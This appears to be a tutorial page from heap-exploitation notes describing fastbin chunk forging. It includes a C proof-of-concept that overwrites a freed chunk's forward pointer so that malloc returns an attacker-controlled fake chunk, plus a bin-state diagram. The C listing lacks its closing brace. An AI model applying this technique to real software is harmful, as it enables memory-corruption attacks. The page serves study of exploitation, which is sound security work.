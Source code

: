 ```yaml
---
layout: default
title:
tags: 

---
```

After a chunk is freed, it is inserted inside a bin, but the pointer is available in the program. If the attacker has control of this pointer via [Use after free](./Use-after-free) or [Double_Free](Double_Free) they can modify the linked list structure in bins and insert their own forged chunks.

`gcc fake_chunk.c -o chall`

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

struct fake_chunk {
    size_t prev_size;
    size_t size;
    struct fake_chunk *fd;
    struct fake_chunk *bk;
    char buf[10];
};

int main() {
    char *a = malloc(10);
    printf("a ptr : %p\n", a);

    struct fake_chunk chunk;
    printf("fake chunks addr %p\n", &chunk);
    chunk.size = 0x20;
    char *data = (char*)&chunk.fd;
    strcpy(data, "Attacker's data : Hacked");

    free(a);

    *((unsigned long long*)a) = (unsigned long long)&chunk;
    printf("Freed ptr a\na now points to %p which is equal to fake chunk %p\n", a, &chunk);

    char *b = malloc(10); // returns same ptr as a

    char *victim = malloc(10);
    printf("Allocate 2 more chunks\nb ptr (same chunks as a): %p\nvictim ptr : %p\n", b, victim );
    
    printf("%s\n", victim);

    return 0;
```



```
1. a is freed:
fastbin : head->a->tail

2. a's fd pointer is changed to point to 'fake chunk':
fastbin : head->a->fake chunks -> undefined 
(fd of fake chunk will be holding attacker's data)

3. malloc request:
fastbin :  head -> forged chunk -> undefind
a is returned

4. malloc request:
fastbin : head -> undefined [fake chunk is returned ]
```


- Another `malloc` request for the fast chunk in the same bin will result in a segmentation fault. 
- 